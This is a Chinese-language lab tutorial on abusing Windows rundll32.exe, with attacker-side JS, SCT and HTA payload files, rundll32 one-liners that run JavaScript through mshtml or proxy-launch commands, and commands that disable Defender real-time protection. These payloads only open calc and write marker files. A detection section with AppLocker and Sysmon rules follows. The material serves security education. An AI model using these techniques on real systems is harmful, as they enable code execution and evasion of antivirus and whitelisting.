



rundll32.exe 平常只是一個用來執行 DLL 檔案中的函數，  
像是開啟控制台或顯示系統資訊這類正常功能  
但其實這個工具的靈活性，也讓它成駭客的最愛，  
不只能執行 DLL，還能執行 JavaScript下載檔案，甚至繞過應用程式白名單

今天就來實測 Windows 11 上 rundll32 的各種創意用法

## 環境準備

* * *

今天的實作會需要兩台機器：

```
Attacker Machine: Kali
Victim Machine: Windows 11

```

### Attacker Machine (Kali)：

```bash
# 建立測試目錄
mkdir ~/rundll32_demo && cd ~/rundll32_demo

# 建立惡意 JavaScript (會被 rundll32 執行)
cat > payload.js << 'EOF'
var shell = new ActiveXObject("WScript.Shell");
shell.Run("calc.exe");
shell.Run("cmd.exe /c echo Rundll32 JS Execution > C:\\Windows\\Temp\\rundll32_test.txt");
EOF

# 建立惡意 SCT 檔案 (Scriptlet)
cat > payload.sct << 'EOF'
<?XML version="1.0"?>
<scriptlet>
<registration progid="Rundll32Test" classid="{00000000-0000-0000-0000-000000000000}">
<script language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
var fso = new ActiveXObject("Scripting.FileSystemObject");
var file = fso.CreateTextFile("C:\\Windows\\Temp\\sct_executed.txt", true);
file.WriteLine("SCT Executed at " + new Date());
file.Close();
]]>
</script>
</registration>
</scriptlet>
EOF

# 建立假的 DLL (其實是 HTA)
cat > fake.hta << 'EOF'
<script>
var c = "calc.exe";
new ActiveXObject("WScript.Shell").Run(c);
window.close();
</script>
EOF

# 啟動 Web Server
python3 -m http.server 8080

```

### Victim Machine (Windows 11)：

```powershell
# 建立測試環境
mkdir C:\TestLab; cd C:\TestLab

# 暫時關閉防護（測試環境）
Add-MpPreference -ExclusionPath "C:\TestLab"
Add-MpPreference -ExclusionPath "$env:TEMP"
Set-MpPreference -DisableRealtimeMonitoring $true

```

## Rundll32 三大暗黑技巧

* * *

### 技巧一：執行 JavaScript

這是最著名的 rundll32 濫用技術：

```cmd
# 設定攻擊者 IP
set ATTACKER=<your_kali_ip>

# 方法1：執行本地 JavaScript
echo var shell = new ActiveXObject("WScript.Shell"); shell.Run("calc.exe"); > test.js
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("calc.exe");

# 方法2：從遠端載入並執行
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=new%20ActiveXObject('WScript.Shell');o.Run('calc.exe');window.close();

# 方法3：更隱蔽的寫法
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject('WScript.Shell');w.Run('calc.exe');window.close()");

```

  
  


JavaScript 在 rundll32 中執行了，可以繞過一般的安全檢查

### 技巧二：代理執行（Proxy Execution）

使用 rundll32 作為其他程式的啟動器：

```powershell
# 透過 rundll32 執行 PowerShell
rundll32.exe shell32.dll,ShellExec_RunDLL powershell.exe -c "calc.exe"

# 執行 COM 物件
rundll32.exe shell32.dll,ShellExec_RunDLL "cmd.exe" "/c echo Proxy Execution"

# 結合 advpack.dll 執行指令
# 建立 INF 檔案
@"
[Version]
Signature="`$Windows NT`$"
[DefaultInstall]
RunPreSetupCommands=Cmd
[Cmd]
calc.exe
"@ | Out-File test.inf

rundll32.exe advpack.dll,LaunchINFSection test.inf,DefaultInstall

# 使用 pcwutl.dll（程式相容性助理）
rundll32.exe pcwutl.dll,LaunchApplication calc.exe

```

關於 `rundll32.exe shell32.dll,ShellExec_RunDLL "cmd.exe" "/c echo Proxy Execution"`：

1.  `rundll32.exe`

*   Windows 內建的程式
*   用來執行 DLL 檔案中的函數
*   有合法的 Microsoft 數位簽章

2.  `shell32.dll`

*   Windows Shell 的核心 DLL
*   包含檔案管理開啟程式等功能
*   位於 C:\\Windows\\System32\\shell32.dll

3.  `ShellExec_RunDLL`

*   shell32.dll 裡面的一個函數
*   功能：執行指定的程式（類似 ShellExecute API）

4.  `"cmd.exe"`

*   要執行的程式

5.  `"/c echo Proxy Execution"`

*   傳給 cmd.exe 的參數
*   /c = 執行完命令後關閉
*   echo Proxy Execution = 顯示文字
*   如果沒有顯示文字的話可以用 `\k` 讓 cmd 維持視窗開啟

### 補充一下上面的 Proxy Execution

```powershell
# 正常執行
cmd.exe /c echo Hello

# 透過 rundll32 代理執行（多了一層）
rundll32.exe shell32.dll,ShellExec_RunDLL cmd.exe "/c echo Hello"

```

用上面的指令可以做到：

1.  繞過監控 - 某些防毒只監控 cmd.exe，不監控 rundll32.exe
2.  混淆來源 - 看起來是 rundll32 在執行，不是直接執行 cmd
3.  規避規則 - 如果有規則阻擋 cmd.exe，但允許 rundll32.exe

## 偵測＆防禦建議

* * *

### 檢查痕跡

```powershell
# 檢查 Temp 資料夾
Get-ChildItem "$env:TEMP" -Filter "*rundll32*" -ErrorAction SilentlyContinue
Get-ChildItem "$env:TEMP" -Filter "*.sct" -ErrorAction SilentlyContinue

# 檢查事件日誌
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4688} |
    Where-Object {$_.Message -match 'rundll32.*javascript'} |
    Select-Object TimeCreated, Message

# 檢查網路連線
Get-NetTCPConnection | Where-Object {
    (Get-Process -Id $_.OwningProcess -ErrorAction SilentlyContinue).Name -eq 'rundll32'
}

```

### 關鍵偵測指標

*   `rundll32.exe` + `javascript:`
*   `rundll32.exe` + `url.dll` + HTTP/HTTPS
*   `rundll32.exe` 產生 PowerShell 或 CMD 子程序
*   `rundll32.exe` 對外網路連線

### AppLocker 規則

```xml
<FilePathRule Id="rundll32_block" Name="Block Rundll32 JavaScript" Action="Deny">
  <Conditions>
    <FilePathCondition Path="%SYSTEM32%\rundll32.exe"/>
    <FilePublisherCondition PublisherName="*" BinaryName="*">
      <BinaryVersionRange LowSection="*" HighSection="*"/>
    </FilePublisherCondition>
  </Conditions>
</FilePathRule>

```

### Sysmon 設定

```xml
<RuleGroup name="Rundll32 Detection">
  <ProcessCreate onmatch="include">
    <Image condition="contains">rundll32.exe</Image>
    <CommandLine condition="contains any">javascript:;url.dll;mshtml</CommandLine>
  </ProcessCreate>
</RuleGroup>

```

## 總結！

Rundll32 是個很靈活的 LOLBAS 工具，因為它：

*   **Windows 內建** - 有合法數位簽章
*   **功能多樣** - 可執行 JavaScript載入 URL代理執行
*   **難以禁用** - 很多系統功能需要它

p.s. 雖然 Microsoft 知道這些濫用方式，但因為向後相容性，這些功能很難被移除這就是為什麼監控 rundll32 的行為比禁用它更實際